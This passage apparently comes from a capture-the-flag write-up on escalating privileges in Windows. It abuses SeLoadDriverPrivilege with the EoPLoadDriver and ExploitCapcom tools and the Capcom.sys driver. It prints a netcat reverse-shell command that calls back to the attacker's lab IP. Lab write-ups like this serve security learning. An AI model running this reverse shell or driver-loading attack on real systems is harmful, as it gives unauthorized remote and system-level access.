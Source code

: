 Using meterpreter's `sysinfo` command I was able to verify that this version of Windows was x64-based.

### Getting a shell

Going back to the article I found earlier, I found a few links to files needed for exploiting the `SeLoadDriverPrivilege` privilege.

* [https://github.com/TarlogicSecurity/EoPLoadDriver/](https://github.com/TarlogicSecurity/EoPLoadDriver/)
* [https://github.com/tandasat/ExploitCapcom](https://github.com/tandasat/ExploitCapcom)

![](../../.gitbook/assets/exploit-capcom.png)

Following the instructions, I had to compile the two files on Windows \(with a matching x64 architecture\).  I customized the exploit a bit to have it call a simple .bat script I wrote to send me a netcat reverse shell. The four files needed for this to work were:

1. Capcom.sys
2. EOPLOADDRIVER.exe
3. ExploitCapcom.exe
4. My .bat script reverse shell

```text
C:\Windows\Temp\nc.exe 10.10.15.74 55541 -e cmd.exe
```

I uploaded the four files required to `C:\temp` and tried to exploit the system, but for some reason I was not able to get back a shell.  It took me a bit of troubleshooting, but I managed to track down the \(very simple\) reason why.  
